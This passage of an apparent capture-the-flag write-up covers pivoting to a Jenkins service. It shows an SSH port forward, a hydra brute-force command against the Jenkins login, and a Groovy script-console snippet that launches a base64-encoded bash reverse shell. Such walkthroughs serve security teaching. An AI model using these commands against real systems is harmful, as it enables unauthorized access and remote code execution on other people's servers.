 after gaining access as aubreanna we get the user flag and there is also
`jenkins.txt` in the home folder which says jenkins is running on port 8080

We need to set up a port forward for 8080

`ssh -L 8000:localhost:8080 aubreanna@10.10.179.97`

we can now access the jenkins page at `localhost:8000`



```
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost -s 8000 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2FecurityRealm%2Fuser%2Fadmin%2Fsearch%2Findex%3Fq%3D%2520for%2520usernames&Submit=Sign+in:Invalid username"
```

bruteforcing the login page with `admin` as the username, we get the password: `spongebob`

from within the Jenkins dashboard, we can run a reverse shell by going to the `/script` directory and running this command:

```bash
def sout \= new StringBuffer(), serr \= new StringBuffer()

def proc \= 'bash -c {echo,<BASE64 ENCODED BASH REVERSE SHELL>}|{base64,-d}|{bash,-i}'.execute()

proc.consumeProcessOutput(sout, serr)

proc.waitForOrKill(1000)

println "out> $sout err> $serr"
```

This will give us a shell for Jenkins